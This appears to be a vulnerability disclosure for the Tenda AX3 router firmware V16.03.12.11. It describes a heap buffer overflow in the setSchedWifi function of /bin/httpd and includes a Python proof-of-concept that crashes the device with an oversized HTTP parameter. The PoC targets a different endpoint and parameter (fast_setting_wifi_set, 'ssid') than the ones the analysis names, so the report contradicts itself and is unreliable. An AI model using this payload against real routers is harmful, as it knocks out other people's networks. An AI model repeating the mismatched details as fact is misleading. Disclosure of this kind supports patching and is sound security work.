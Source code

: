 Information
===========

**Vendor of the products**: Tenda <br>

**Vendor's website**: https://www.tenda.com.cn <br>

**Reported by**: korey0sh1(korey0sh2@gmail.com) <br>

**Affected products**: Tenda AX3 <br>

**Affected firmware version**: V16.03.12.11 <br>

**Firmware download address**: https://www.tenda.com.cn/download/detail-3476.html <br>

Overview
===========

**Tenda AX3 V16.03.12.11** has a **heap buffer overflow** vulnerability detected at function **setSchedWifi**. This vulnerability allows attackers to cause a Denial of Service (DoS) via the **schedStartTime** parameter and **schedEndTime** paramter. <br>

Vulnerability details
=====================
The vulnerability is detected at **/bin/httpd** <br>

In the function **setSchedWifi**, the content obtained by program through parameter **schedStartTime** and **schedEndTime** given by http is passed to variable **v5** and **v6**. However ,they will be copyed to the **v10** which is a heap ptr without any length check. <br>
![](https://github.com/Korey0sh1/IoT_vuln/blob/main/Tenda/AX3/img/0.png) <br>

<br>

Proof of Code
====================
```python
from pwn import *
import requests

url = "http://192.168.0.1/goform/fast_setting_wifi_set"

payload = "a"*0x1000
data = {
    "ssid": payload,
}
res = requests.post(url=url,data=data)
print(res.text)
```

Attack Demo
========
![](https://github.com/Korey0sh1/IoT_vuln/blob/main/Tenda/AX3/img/1.png)
![](https://github.com/Korey0sh1/IoT_vuln/blob/main/Tenda/AX3/img/2.png)
![](https://github.com/Korey0sh1/IoT_vuln/blob/main/Tenda/AX3/img/3.png)
